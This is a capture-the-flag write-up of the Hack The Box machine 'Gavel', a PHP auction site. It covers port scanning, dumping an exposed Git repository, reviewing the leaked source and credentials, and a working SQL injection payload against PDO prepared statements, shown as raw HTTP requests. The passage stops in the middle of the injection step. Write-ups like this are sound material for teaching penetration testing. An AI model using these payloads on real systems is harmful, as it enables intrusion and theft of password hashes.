






## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
- [Directory Busting](#Directory-Busting)
- [Dumping the Git Repository](#Dumping-the-Git-Repository)
- [Enumerating the Git Repository](#Enumerating-the-Git-Repository)
- [SQL Injection (SQLi) in PHP Data Objects (PDO) Prepared Statements](#SQL-Injection-SQLi-in-PHP-Data-Objects-PDO-Prepared-Statements)
- [Cracking the Hash using John the Ripper](#Cracking-the-Hash-using-John-the-Ripper)
- [Initial Access](#Initial-Access)
    - [Auctioneer Dashboard](#Auctioneer-Dashboard)
- [Enumeration (www-data)](#Enumeration-www-data)
- [Privilege Escalation to auctioneer](#Privilege-Escalation-to-auctioneer)
- [user.txt](#usertxt)
- [Enumeration (auctioneer)](#Enumeration-auctioneer)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
- [root.txt](#roottxt)

## Summary

The box starts with the `dump` of a `Git Repository` that indicates a `SQL Injection (SQLi)` on in `PHP Data Objects (PDO) Prepared Statements` of a `Bidding Platform Application` called `Gavel`.

Through the `SQLi` it is possible to get the `hashed Password` of the user `auctioneer` which is allowed to modify rules that allow to execute `PHP Code` directly on the box.

After cracking the `Hash` and getting `Initial Access` as `www-data` the `Privilege Escalation` to `auctioneer` is pretty easy since the password matches the user on the bidding platform. This enables access to the `user.txt`.

To get `root` another exploitation of `Gavel` is necessary and can be achieved by overriding the `php.ini` with a custom one to enable all `PHP Functions` to execute arbitrary code or system commands. After abusing the `application configuration files` a `second time` to gain a shell as root, the `root.txt` can be obtained.

## Reconnaissance

### Port Scanning

We started the box with our initial `port scan` using `Nmap`. It showed us the expected port `22/TCP` and `80/TCP`. 

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.51.64 --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-29 20:02 CET
Nmap scan report for 10.129.51.64
Host is up (0.024s latency).
Not shown: 51269 filtered tcp ports (no-response), 14264 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.70 seconds
```

We also noticed the `HTTP Redirect` to `http://gavel.htb` on port `80/TCP`, which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.51.64         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-29 20:02 CET
Nmap scan report for 10.129.51.64
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1f:de:9d:84:bf:a1:64:be:1f:36:4f:ac:3c:52:15:92 (ECDSA)
|_  256 70:a5:1a:53:df:d1:d0:73:3e:9d:90:ad:c1:aa:b4:19 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://gavel.htb/
Service Info: Host: gavel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.76 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.51.64    gavel.htb
```

### Enumeration of Port 80/TCP

Next we started to take a look at the website which offered us some sort of bidding platform as well as the option to `register` and to `login`.

- [http://gavel.htb/](http://gavel.htb/)






## Directory Busting

The next task was to start with `Directory Busting` to see if we could find any useful `endpoints`, `files` or `folders`. The first was already something useful because we found a exposed `Git Repository`.

```shell
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://gavel.htb/

  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )                                                                                                                  
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_gavel.htb/__25-11-29_20-13-08.txt

Target: http://gavel.htb/

[20:13:08] Starting:                                                             
[20:13:10] 301 -  305B  - /.git  ->  http://gavel.htb/.git/                 
[20:13:10] 200 -    3B  - /.git/COMMIT_EDITMSG                              
[20:13:10] 200 -   23B  - /.git/HEAD                                        
[20:13:10] 200 -  407B  - /.git/branches/                                   
[20:13:10] 200 -   73B  - /.git/description                                 
[20:13:10] 200 -  616B  - /.git/                                            
[20:13:10] 200 -  136B  - /.git/config
[20:13:10] 200 -  219KB - /.git/index
[20:13:10] 200 -  240B  - /.git/info/exclude                                
[20:13:10] 200 -  670B  - /.git/hooks/
[20:13:10] 200 -  454B  - /.git/info/
[20:13:10] 301 -  315B  - /.git/logs/refs  ->  http://gavel.htb/.git/logs/refs/
[20:13:10] 200 -  486B  - /.git/logs/
[20:13:10] 301 -  321B  - /.git/logs/refs/heads  ->  http://gavel.htb/.git/logs/refs/heads/
[20:13:10] 200 -  422B  - /.git/logs/HEAD
[20:13:11] 200 -  422B  - /.git/logs/refs/heads/master                      
[20:13:11] 301 -  316B  - /.git/refs/heads  ->  http://gavel.htb/.git/refs/heads/
[20:13:11] 200 -   41B  - /.git/refs/heads/master                           
[20:13:11] 301 -  315B  - /.git/refs/tags  ->  http://gavel.htb/.git/refs/tags/
[20:13:11] 200 -  467B  - /.git/refs/                                       
[20:13:11] 403 -  274B  - /.ht_wsr.txt                                      
[20:13:11] 403 -  274B  - /.htaccess.bak1                                   
[20:13:12] 403 -  274B  - /.htaccess.orig                                   
[20:13:12] 403 -  274B  - /.htaccess.sample                                 
[20:13:12] 403 -  274B  - /.htaccess_orig                                   
[20:13:12] 403 -  274B  - /.htaccess.save
[20:13:12] 403 -  274B  - /.htaccess_extra                                  
[20:13:12] 403 -  274B  - /.htaccess_sc
[20:13:12] 403 -  274B  - /.htaccessOLD
[20:13:12] 403 -  274B  - /.htaccessBAK
[20:13:12] 403 -  274B  - /.htaccessOLD2
[20:13:12] 403 -  274B  - /.htm                                             
[20:13:12] 403 -  274B  - /.html
[20:13:12] 403 -  274B  - /.htpasswds                                       
[20:13:12] 403 -  274B  - /.htpasswd_test
[20:13:12] 403 -  274B  - /.httr-oauth
[20:13:15] 200 -    2KB - /.git/objects/                                    
[20:13:15] 403 -  274B  - /.php                                             
[20:13:19] 302 -    0B  - /admin.php  ->  index.php                         
[20:13:25] 301 -  307B  - /assets  ->  http://gavel.htb/assets/             
[20:13:25] 200 -  515B  - /assets/                                          
[20:13:34] 301 -  309B  - /includes  ->  http://gavel.htb/includes/         
[20:13:34] 403 -  274B  - /includes/                                        
[20:13:34] 200 -    3KB - /index.php/login/                                 
[20:13:36] 200 -    1KB - /login.php                                        
[20:13:37] 302 -    0B  - /logout.php  ->  index.php                        
[20:13:45] 200 -    1KB - /register.php                                     
[20:13:46] 403 -  274B  - /server-status                                    
[20:13:46] 403 -  274B  - /server-status/
                                                                             
Task Completed
```

## Dumping the Git Repository

By using `Git Dumper` we downloaded the `Git Repository`.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.13.9.final.0-64 in 522ms
  creator CPython3Posix(dest=/home/kali/opt/01_information_gathering/git-dumper/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.local/share/virtualenv)
    added seed packages: pip==25.2
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ source venv/bin/activate
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ pip install -r requirements.txt 
Collecting PySocks (from -r requirements.txt (line 1))
  Using cached PySocks-1.7.1-py3-none-any.whl.metadata (13 kB)
Collecting requests (from -r requirements.txt (line 2))
  Using cached requests-2.32.5-py3-none-any.whl.metadata (4.9 kB)
Collecting beautifulsoup4 (from -r requirements.txt (line 3))
  Using cached beautifulsoup4-4.14.2-py3-none-any.whl.metadata (3.8 kB)
Collecting dulwich (from -r requirements.txt (line 4))
  Downloading dulwich-0.24.10-cp313-cp313-manylinux_2_28_x86_64.whl.metadata (5.4 kB)
Collecting requests-pkcs12 (from -r requirements.txt (line 5))
  Downloading requests_pkcs12-1.27-py3-none-any.whl.metadata (3.8 kB)
Collecting charset_normalizer<4,>=2 (from requests->-r requirements.txt (line 2))
  Using cached charset_normalizer-3.4.4-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.manylinux_2_28_x86_64.whl.metadata (37 kB)
Collecting idna<4,>=2.5 (from requests->-r requirements.txt (line 2))
  Using cached idna-3.11-py3-none-any.whl.metadata (8.4 kB)
Collecting urllib3<3,>=1.21.1 (from requests->-r requirements.txt (line 2))
  Using cached urllib3-2.5.0-py3-none-any.whl.metadata (6.5 kB)
Collecting certifi>=2017.4.17 (from requests->-r requirements.txt (line 2))
  Downloading certifi-2025.11.12-py3-none-any.whl.metadata (2.5 kB)
Collecting soupsieve>1.2 (from beautifulsoup4->-r requirements.txt (line 3))
  Using cached soupsieve-2.8-py3-none-any.whl.metadata (4.6 kB)
Collecting typing-extensions>=4.0.0 (from beautifulsoup4->-r requirements.txt (line 3))
  Using cached typing_extensions-4.15.0-py3-none-any.whl.metadata (3.3 kB)
Collecting cryptography>=42.0.0 (from requests-pkcs12->-r requirements.txt (line 5))
  Using cached cryptography-46.0.3-cp311-abi3-manylinux_2_34_x86_64.whl.metadata (5.7 kB)
Collecting cffi>=2.0.0 (from cryptography>=42.0.0->requests-pkcs12->-r requirements.txt (line 5))
  Using cached cffi-2.0.0-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.whl.metadata (2.6 kB)
Collecting pycparser (from cffi>=2.0.0->cryptography>=42.0.0->requests-pkcs12->-r requirements.txt (line 5))
  Using cached pycparser-2.23-py3-none-any.whl.metadata (993 bytes)
Using cached PySocks-1.7.1-py3-none-any.whl (16 kB)
Using cached requests-2.32.5-py3-none-any.whl (64 kB)
Using cached charset_normalizer-3.4.4-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.manylinux_2_28_x86_64.whl (153 kB)
Using cached idna-3.11-py3-none-any.whl (71 kB)
Using cached urllib3-2.5.0-py3-none-any.whl (129 kB)
Using cached beautifulsoup4-4.14.2-py3-none-any.whl (106 kB)
Downloading dulwich-0.24.10-cp313-cp313-manylinux_2_28_x86_64.whl (1.3 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.3/1.3 MB 15.7 MB/s  0:00:00
Downloading requests_pkcs12-1.27-py3-none-any.whl (6.1 kB)
Downloading certifi-2025.11.12-py3-none-any.whl (159 kB)
Using cached cryptography-46.0.3-cp311-abi3-manylinux_2_34_x86_64.whl (4.5 MB)
Using cached cffi-2.0.0-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.whl (219 kB)
Using cached soupsieve-2.8-py3-none-any.whl (36 kB)
Using cached typing_extensions-4.15.0-py3-none-any.whl (44 kB)
Using cached pycparser-2.23-py3-none-any.whl (118 kB)
Installing collected packages: urllib3, typing-extensions, soupsieve, PySocks, pycparser, idna, charset_normalizer, certifi, requests, dulwich, cffi, beautifulsoup4, cryptography, requests-pkcs12
Successfully installed PySocks-1.7.1 beautifulsoup4-4.14.2 certifi-2025.11.12 cffi-2.0.0 charset_normalizer-3.4.4 cryptography-46.0.3 dulwich-0.24.10 idna-3.11 pycparser-2.23 requests-2.32.5 requests-pkcs12-1.27 soupsieve-2.8 typing-extensions-4.15.0 urllib3-2.5.0
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/01_information_gathering/git-dumper]
└─$ python3 git_dumper.py http://gavel.htb output
<--- CUT FOR BREVITY --->
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 1849 paths from the index
```

## Enumerating the Git Repository

After moving the dumped files to our desired location, we started digging through the files.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Gavel/files/output]
└─$ ls -la
total 72
drwxrwx--- 1 root vboxsf   192 Nov 29 20:17 .
drwxrwx--- 1 root vboxsf    12 Nov 29 20:19 ..
-rwxrwx--- 1 root vboxsf  8820 Nov 29 20:17 admin.php
drwxrwx--- 1 root vboxsf    48 Nov 29 20:17 assets
-rwxrwx--- 1 root vboxsf  8441 Nov 29 20:17 bidding.php
drwxrwx--- 1 root vboxsf   128 Nov 29 20:17 .git
drwxrwx--- 1 root vboxsf   162 Nov 29 20:17 includes
-rwxrwx--- 1 root vboxsf 14520 Nov 29 20:17 index.php
-rwxrwx--- 1 root vboxsf  8384 Nov 29 20:17 inventory.php
-rwxrwx--- 1 root vboxsf  6408 Nov 29 20:17 login.php
-rwxrwx--- 1 root vboxsf   161 Nov 29 20:17 logout.php
-rwxrwx--- 1 root vboxsf  7058 Nov 29 20:17 register.php
drwxrwx--- 1 root vboxsf    42 Nov 29 20:17 rules
```

First we checked the `Commits` to see if it would contain any leaked information. But the only really interesting thing was the `username` of `sado` which had no relevance to the box as we figured out later.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Gavel/files/output]
└─$ git log                                                                                               
commit f67d90739a31d3f9ffcc3b9122652b500ff2a497 (HEAD -> master)
Author: sado <sado@gavel.htb>
Date:   Fri Oct 3 18:38:02 2025 +0000

    ..

commit 2bd167f52a35786a5a3e38a72c63005fffa14095
Author: sado <sado@gavel.htb>
Date:   Fri Oct 3 18:37:10 2025 +0000

    .

commit ff27a161f2dd87a0c597ba5638e3457ac167c416
Author: sado <sado@gavel.htb>
Date:   Sat Sep 20 13:12:15 2025 +0000

    gavel auction ready
```

| Username |
| -------- |
| sado     |

```shell
┌──(kali㉿kali)-[/media/…/Machines/Gavel/files/output]
└─$ git show f67d90739a31d3f9ffcc3b9122652b500ff2a497
commit f67d90739a31d3f9ffcc3b9122652b500ff2a497 (HEAD -> master)
Author: sado <sado@gavel.htb>
Date:   Fri Oct 3 18:38:02 2025 +0000

    ..

diff --git a/rules/default.yaml b/rules/default.yaml
index 5eedec9..1b3660f 100755
--- a/rules/default.yaml
+++ b/rules/default.yaml
@@ -5,11 +5,5 @@ rules:
   - rule: "return $current_bid % 5 == 0;"
     message: "Bids must be in multiples of 5. Your account balance must cover the bid amount."
 
-  - rule: "return strlen($bidder) % 2 == 0;"
-    message: "Bidding is restricted to users with an even-numbered username."
-
-  - rule: "return strlen($bidder) % 2 == 1;"
-    message: "Bidding is restricted to users with an odd-numbered username."
-
   - rule: "return $current_bid >= $previous_bid + 5000;"
     message: "Only bids greater than 5000 + current bid will be considered. Ensure you have sufficient balance before placing such bids."
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Gavel/files/output]
└─$ git show 2bd167f52a35786a5a3e38a72c63005fffa14095
commit 2bd167f52a35786a5a3e38a72c63005fffa14095
Author: sado <sado@gavel.htb>
Date:   Fri Oct 3 18:37:10 2025 +0000

    .

diff --git a/rules/default.yaml b/rules/default.yaml
index a5bef05..5eedec9 100755
--- a/rules/default.yaml
+++ b/rules/default.yaml
@@ -12,4 +12,4 @@ rules:
     message: "Bidding is restricted to users with an odd-numbered username."
 
   - rule: "return $current_bid >= $previous_bid + 5000;"
-    message: "Only bids greater than 5000 will be considered. Ensure you have sufficient balance before placing such bids."
+    message: "Only bids greater than 5000 + current bid will be considered. Ensure you have sufficient balance before placing such bids."^M
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Gavel/files/output]
└─$ git show ff27a161f2dd87a0c597ba5638e3457ac167c416
commit ff27a161f2dd87a0c597ba5638e3457ac167c416
Author: sado <sado@gavel.htb>
Date:   Sat Sep 20 13:12:15 2025 +0000

    gavel auction ready

diff --git a/admin.php b/admin.php
new file mode 100755
index 0000000..c152f24
--- /dev/null
+++ b/admin.php
@@ -0,0 +1,185 @@
+<?php^M
+require_once __DIR__ . '/includes/config.php';^M
+require_once __DIR__ . '/includes/db.php';^M
+require_once __DIR__ . '/includes/session.php';^M
+require_once __DIR__ . '/includes/auction.php';^M
+^M
+if (!isset($_SESSION['user']) || $_SESSION['user']['role'] !== 'auctioneer') {^M
+    header('Location: index.php');^M
+    exit;^M
+}^M
+^M
+if ($_SERVER['REQUEST_METHOD'] === 'POST') {^M
+    $auction_id = intval($_POST['auction_id'] ?? 0);^M
+    $rule = trim($_POST['rule'] ?? '');^M
+    $message = trim($_POST['message'] ?? '');^M
+^M
+    if ($auction_id > 0 && (empty($rule) || empty($message))) {^M
+        $stmt = $pdo->prepare("SELECT rule, message FROM auctions WHERE id = ?");^M
+        $stmt->execute([$auction_id]);^M
+        $row = $stmt->fetch(PDO::FETCH_ASSOC);^M
+        if (!$row) {^M
+            $_SESSION['success'] = 'Auction not found.';^M
+            header('Location: admin.php');^M
+            exit;^M
+        }^M
+        if (empty($rule))    $rule = $row['rule'];^M
+        if (empty($message)) $message = $row['message'];^M
+    }^M
+^M
+    if ($auction_id > 0 && $rule && $message) {^M
+        $stmt = $pdo->prepare("UPDATE auctions SET rule = ?, message = ? WHERE id = ?");^M
+        $stmt->execute([$rule, $message, $auction_id]);^M
+        $_SESSION['success'] = 'Rule and message updated successfully!';^M
+        header('Location: admin.php');^M
+        exit;^M
+    }^M
+}^M
+^M
+$stmt = $pdo->query("SELECT * FROM auctions WHERE status = 'active' ORDER BY id");^M
<--- CUT FOR BREVITY --->
+        <div class="container-fluid pt-4">^M
+            <h1 class="h3 text-gray-800 text-center"><i class="fa fa-lock"></i> Admin Panel</h1>^M
+            <hr>^M
+            <?php if (!empty($_SESSION['success'])): ?>^M
+                <div class="alert alert-success text-center">Rule and message updated successfully!</div>^M
+                <?php unset($_SESSION['success']); ?>^M
+            <?php endif; ?>^M
+            <?php if (!$current_auction): ?>^M
+                <div class="alert alert-warning">No active auctions at the moment. Please check back later.</div>^M
+            <?php else: ?>^M
+                <div class="row">^M
+                    <?php foreach ($current_auction as $auction):^M
+                        $itemDetails = get_item_by_name($auction['item_name']);^M
+                        $remaining = strtotime($auction['ends_at']) - time();^M
+                        ?>^M
+                        <div class="col-md-4">^M
+                            <div class="card shadow mb-4">^M
+                                <div class="card-body text-center">^M
+                                    /img/<?= $itemDetails['image'] ?>" alt="" class="img-fluid mb-3" style="max-height: 200px;">^M
+                                    <h3 class="mb-1"><?= htmlspecialchars($itemDetails['name']) ?></h3>^M
+                                    <p class="mb-1"><?= htmlspecialchars($itemDetails['description']) ?></p>^M
+                                    <hr>^M
+                                    <form class="bidForm mt-4" method="POST">^M
+                                    <input type="hidden" name="auction_id" value="<?= $auction['id'] ?>">^M
+                                    <!-- p class="mb-1 text-justify"><strong>Rule:</strong> <code lang="php"><?= htmlspecialchars($auction['rule']) ?></code></p -->^M
+                                    <input type="text" class="form-control form-control-user" name="rule" placeholder="Edit rule">^M
+                                    <!-- <p class="mb-1 text-justify"><strong>Message:</strong> <?= htmlspecialchars($auction['message']) ?></p> -->^M
+                                    <input type="text" class="form-control form-control-user" name="message" placeholder="Edit message">^M
+                                    <p class="mb-1 text-justify"><strong>Time Remaining:</strong> <span class="timer" data-end="<?= strtotime($auction['ends_at']) ?>"><?= $remaining ?></span> seconds <i class="fas fa-clock"></i></p>^M
+                                    <button class="btn btn-dark btn-user btn-block" type="submit"><i class="fas fa-pencil-alt"></i> Edit</button>^M
+                                    </form>^M
+                                </div>^M
+                            </div>^M
+                        </div>^M
+                    <?php endforeach; ?>^M
+                </div>^M
+            <?php endif; ?>^M
+        </div>^M
+    </div>^M
+^M
+    <!-- Scripts -->^M
+    <script src="<?= ASSETS_URL ?>/vendor/jquery/jquery.min.js"></script>^M
+    <script src="<?= ASSETS_URL ?>/vendor/bootstrap/js/bootstrap.bundle.min.js"></script>^M
+    <script src="<?= ASSETS_URL ?>/vendor/jquery-easing/jquery.easing.min.js"></script>^M
+    <script src="<?= ASSETS_URL ?>/js/sb-admin-2.min.js"></script>^M
+    <script>^M
+        document.querySelectorAll('.timer').forEach(timer => {^M
+            const end = parseInt(timer.dataset.end);^M
+            const pTag = timer.closest('p');^M
+            const interval = setInterval(() => {^M
+                const now = Math.floor(Date.now() / 1000);^M
+                const remaining = end - now;^M
+                if (remaining <= 0) {^M
+                    clearInterval(interval);^M
+                    location.reload();^M
+                } else {^M
+                    timer.innerText = remaining;^M
+                }^M
+            }, 1000);^M
+        });^M
+    </script>^M
+</body>^M
<--- CUT FOR BREVITY --->
```

Then we moved on looking into the files one by one.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Gavel/files/output]
└─$ cat includes/config.php 
<?php

define('DB_HOST', 'localhost');
define('DB_NAME', 'gavel');
define('DB_USER', 'gavel');
define('DB_PASS', 'gavel');

define('ROOT_PATH', dirname(__DIR__));

$basePath = rtrim(dirname($_SERVER['SCRIPT_NAME']), '/');
define('BASE_URL', $basePath);
define('ASSETS_URL', $basePath . '/assets');
```

The `admin.php` held the most useful information. If showed us that the application used `PHP Data Objects (PDO)` to communicate with the underlying `database`.

Furthermore we found how the application let the user `auctioneer`, `modify` and `update` rules which could lead to `Remote Code Execution (RCE)` through `PHP`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Gavel/files/output]
└─$ cat  admin.php 
<?php
require_once __DIR__ . '/includes/config.php';
require_once __DIR__ . '/includes/db.php';
require_once __DIR__ . '/includes/session.php';
require_once __DIR__ . '/includes/auction.php';

if (!isset($_SESSION['user']) || $_SESSION['user']['role'] !== 'auctioneer') {
    header('Location: index.php');
    exit;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $auction_id = intval($_POST['auction_id'] ?? 0);
    $rule = trim($_POST['rule'] ?? '');
    $message = trim($_POST['message'] ?? '');

    if ($auction_id > 0 && (empty($rule) || empty($message))) {
        $stmt = $pdo->prepare("SELECT rule, message FROM auctions WHERE id = ?");
        $stmt->execute([$auction_id]);
        $row = $stmt->fetch(PDO::FETCH_ASSOC);
        if (!$row) {
            $_SESSION['success'] = 'Auction not found.';
            header('Location: admin.php');
            exit;
        }
        if (empty($rule))    $rule = $row['rule'];
        if (empty($message)) $message = $row['message'];
    }

    if ($auction_id > 0 && $rule && $message) {
        $stmt = $pdo->prepare("UPDATE auctions SET rule = ?, message = ? WHERE id = ?");
        $stmt->execute([$rule, $message, $auction_id]);
        $_SESSION['success'] = 'Rule and message updated successfully!';
        header('Location: admin.php');
        exit;
    }
}
<--- CUT FOR BREVITY --->
```

| Username   |
| ---------- |
| auctioneer |

## SQL Injection (SQLi) in PHP Data Objects (PDO) Prepared Statements

So the attack path was to `escalate` our `privileges` to the user `auctioneer` and then inject our `PHP Payload` into one of the `rules`.

To achieve that we started searching for `SQL Injection (SQLi)` on various fields and also in the `URL`. We got the `?user_id=1` option from the `source code` and tried to inject code using a `Backtick`.

The following `article` helped understanding the `Vulnerability` in `Prepared Statements` and how to exploit them.

- [https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/](https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/)

We started with a simple `payload` and then used the `Proof of Concept (PoC)` from the `article` to first get the `Database Schema` and then the `hashed password` of `auctioneer`.

```shell
http://gavel.htb/inventory.php?user_id=1`
```

```shell
GET /inventory.php?user_id=x`+FROM+(SELECT+table_name+AS+`'x`+from+information_schema.tables)y;--+-&sort=\?;--+-%00
```

```shell
GET /inventory.php?user_id=x`+FROM+(SELECT+table_name+AS+`'x`+from+information_schema.tables)y;--+-&sort=\?;--+-%00 HTTP/1.1
Host: gavel.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
